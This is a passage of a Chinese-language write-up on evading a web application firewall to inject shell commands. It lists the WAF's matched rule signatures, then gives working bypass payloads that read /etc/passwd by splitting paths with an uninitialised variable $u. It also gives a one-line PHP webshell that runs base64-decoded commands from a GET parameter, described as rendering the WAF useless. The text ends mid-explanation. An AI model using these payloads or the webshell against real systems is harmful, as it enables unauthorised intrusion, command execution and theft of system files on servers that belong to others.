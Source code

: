 ```bash
##
nobody:*:-2:-2:Unprivileged User:/var/empty:/usr/bin/false
··
··
_oahd:*:441:441:OAH Daemon:/var/empty:/usr/bin/false
```
在终端下相同作用的链接符号还有`&&`；

直接传参`www.baidu.com;cat+/etc/passwd`注入明显的攻击行为直接返回403，查看日志匹配到以下特征：
- 1、`"Operator Rx' with parameter ^[\d.:]+$' against variable`，存在运算符；
- 2、`Operator PmFromFile' with parameter lfi-os-files.data'`，正则匹配到lfi-os-files的规则库；
- 3、`characters omitted`，特殊字符；
- 4、`"Operator PmFromFile' with parameter unix-shell.data'`，正则匹配到unix-shell的规则库；
- 5、`Operator Ge' with parameter 5'`，同样为存在运算符。
所以根据以上特征进行规则探测并注入fuzz：


---

- `+$u+cat+/$uetc/$upasswd$u`
- `+$ucat+$u/etc$u/passwd`
以上都返回200，但是没有回显，说明命令写的不对；

实际测试`/etc`、`/passwd`和特殊字符等不能单独出现，所以使用未初始变量`$u`包住后进行注入；
下面是实际生效的payload：
- `+$u+cat+/etc$u/passwd$u`
- `+$u+cat+$u/etc$u/passwd`
![waf-bypass-exec](/static/web-image/waf/waf-bypass-exec-command.png)


## 一：编写poc脚本连接器

通过以上绕过首发即可执行任意代码，我们可以直接写入一句话木马，但是这不是本段的重点；

本段的重点是通过实际测试发现base64编码后可以完美绕过waf，所以可以直接写入一个base64的马，然后连接，实际上就是解决实现一个webshell连接器，实现
功能类似一个蚁剑的cmd连接功能；这样以来WAF就形同虚设了。
webshell代码：
```php
<?php system(base64_decode($_GET['CMD']));?>
```
- GET/POST请求传入cmd
- base64加密参数内容
- 类似终端执行代码
实现效果如下：